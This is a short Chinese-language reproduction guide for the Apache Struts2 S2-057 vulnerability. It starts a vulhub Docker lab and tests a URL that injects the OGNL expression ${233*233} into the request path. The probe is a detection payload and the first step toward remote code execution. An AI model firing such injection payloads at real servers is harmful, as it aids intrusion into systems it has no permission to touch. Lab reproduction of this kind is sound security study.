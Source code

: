 ### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-057
docker-compose up -d
```

访问 `http://your-ip:8080/showcase` ，查看如下页面

![s2-057-1](images/s2-057-1.png)

测试 OGNL 表达式`${233*233}`:

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```
